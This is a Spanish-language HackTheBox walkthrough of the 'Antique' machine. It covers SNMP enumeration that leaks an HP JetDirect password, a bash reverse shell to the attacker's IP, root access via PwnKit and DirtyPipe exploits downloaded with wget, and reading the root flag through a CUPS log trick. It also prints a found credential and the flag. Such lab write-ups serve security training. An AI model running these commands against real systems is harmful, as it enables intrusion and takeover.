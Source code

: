 ```yaml
---
title: HackTheBox - Antique
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SNMP Enumeration', 'Pwnkit (CVE-2021-4034)', 'DirtyPipe (CVE-2022-0847)', 'Cups (CVE-2012-5519)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Antique/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Antique Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Linux, SNMP Enumeration, Pwnkit (CVE-2021-4034), DirtyPipe (CVE-2022-0847), Cups (CVE-2012-5519)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos tanto **TCP** como **UDP**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Antique/01-ports.png)


* **`nmap -sU --top-ports 1000 -Pn -n <IP> -oG puertos_udp`**

    ![](/assets/images/HTB/Easy/Antique/01-ports-udp.png)


b. Al conectarnos con telnet al puerto 23 nos pedirá una contraseña para continuar, pero, al no tenerla inspeccionamos el servicio **`SNMP`**

> **Protocolo Simple de Gestión de Red** (SNMP), fue creado para monitorear dispositivos en red. Se usa para manejar la configuración de tareas y cambiar configuraciones remotamente. Algunos dispositivos son compatibles como routers, switches, servidores o dispositivos IoT.
{: .prompt-info }

c. Al configurar dispositivos puede que exista información sobre los procesos y en ciertos casos credenciales. Así que, enumeraremos el servicio **`SNMP`** para tratar de conseguir información disponible, para esto debemos poseer una **`community string`**, algo así como una contraseña.

```bash
nmap -sU -p 161 --script 'snmp-*' <IP Antique>

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute:
|   <empty> - Valid credentials
|   cascade - Valid credentials
|   secret - Valid credentials
|   rmonmgmtuicommunity - Valid credentials
|   ANYCOM - Valid credentials
|   volition - Valid credentials
|   ILMI - Valid credentials
|   TENmanUFactOryPOWER - Valid credentials
|   MiniAP - Valid credentials
|   PRIVATE - Valid credentials
|   admin - Valid credentials
|   private - Valid credentials
|   public - Valid credentials
|   PUBLIC - Valid credentials
|   snmpd - Valid credentials
|   cisco - Valid credentials
|   mngt - Valid credentials
|_  snmp-Trap - Valid credentials

snmpwalk -v2c -c secret 10.10.11.107
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
```

Al buscar por cualquiera de las **`community strings`** siempre obtendremos el mismo resultado, por lo que indagamos más sobre este servicio [SNMP - Basics](https://www.manageengine.com/latam/network-monitoring/tutorial-fundamentos-protocolo-snmp.html)

d. Nos mencionan que sigue una estructura de árbol, y **`snmpwalk`** no enumera desde la raíz, así que le indicamos que queremos obtener toda la información posible desde la raíz

```bash
snmpwalk -v2c -c secret 10.10.11.107 1

SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
> Obtenemos la información en formato **hexadecimal**, para verla en texto claro usamos **`xxd -r -p`**
{: .prompt-tip }

e. Una vez con la contraseña en texto claro nos autenticamos en el servicio **telnet**

```bash
telnet <IP Antique>
HP JetDirect

Password: P@ssw0rd@123!!123
Please type "?" for HELP
> ?
<SNIP>
exec: execute system commands (exec id)
```

Podemos ejecutar comandos, por lo que nos entablaremos una reverse shell

```bash
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"
-----------------------------------------------------------
nc -lvnp 4444
lp@antique:~$
```

### Escalada de Privilegios 💹

Para escalar privilegios existen múltiples formas, primero usaremos [**Pwnkit**](https://github.com/berdav/CVE-2021-4034)

a. Primero, movemos los ficheros necesarios a la **Máquina Antique**

```bash
python -m http.server 80
--------------------------------------
lp@antique:/home/lp$ wget http://<tun0 IP>/cve-2021-4034.c -o-
lp@antique:/home/lp$ wget http://<tun0 IP>/Makefile -o-
lp@antique:/home/lp$ wget http://<tun0 IP>/pwnkit.c -o-
lp@antique:/home/lp$ make
lp@antique:/home/lp/backup$ chmod +x cve-2021-4034
lp@antique:/home/lp/backup$ ./cve-2021-4034
# whoami
root
```

b. La segunda forma se consigue al usar [**DirtyPipe**](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits), usaremos el **exploit-1.c**

```bash
lp@antique:~$ wget http://10.10.14.18/poc.c -o-
lp@antique:~$ gcc poc.c -o exploit
lp@antique:~$ chmod +x exploit
lp@antique:~$ ./exploit
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
whoami
root
```

c. Veremos los puertos abiertos en la máquina y buscaremos algún exploit para [**CUPS**](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)

```bash
lp@antique:~$ netstat -nat
<SNIP>
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN

lp@antique:~$ curl http://127.0.0.1:631
<SNIP>
<P><A HREF="help/whatsnew.html">What's New in CUPS 1.6</A></P>
```

```bash
lp@antique:~$ cupsctl ErrorLog=/root/root.txt
lp@antique:~$ curl -s 127.0.0.1:631/admin/log/error_log?

b901e1e1f279e8d3160bebd097f37ddd
```